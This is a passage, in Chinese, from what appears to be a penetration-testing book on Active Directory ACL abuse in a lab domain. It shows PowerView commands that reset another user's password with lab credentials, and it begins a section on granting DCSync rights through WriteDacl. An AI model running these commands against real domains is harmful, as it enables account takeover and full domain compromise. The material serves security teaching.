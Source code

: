 图 6.17 – tywin.lannister 可以重置 jaime.lannister 用户的密码

以下 PowerView 命令将完成此操作：

```
$username = 'sevenkingdoms\tywin.lannister'
$password= ConvertTo-SecureString 'powerkingftw135' -AsPlainText -Force
$auth = New-Object System.Management.Automation.PSCredential $username, $password
$newpassword = ConvertTo-SecureString 'Qwerty123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'sevenkingdoms\jaime.lannister' -AccountPassword $newpassword -Credential $auth -Verbose
```

结果如下图所示：

![图 6.18 – tywin.lannister 成功重置 jaime.lannister 用户的密码](img/B18964_06_18.jpg)

图 6.18 – tywin.lannister 成功重置 jaime.lannister 用户的密码

最后，我们将看看可以用于完全接管整个域的最强 ACL。

## DCSync

`WriteDacl` 权限可以用于授予 DCSync 权限（**DS-Replication-Get-Changes 和 DS-Replication-Get-Changes-All**）。为了模拟攻击，我使用了 ADSI 编辑并添加了 `jaime.lannister` 的 **修改权限** 和 **写入所有属性** 权限。我们可以使用 PowerView 来确认更改已成功：

```
Find-InterestingDomainAcl | ?{$_.IdentityReferenceName -eq 'jaime.lannister'}
```

命令的结果如以下截图所示：

![图 6.19 – jaime.lannister 用户具有对域对象的 WriteDacl 权限](img/B18964_06_19.jpg)
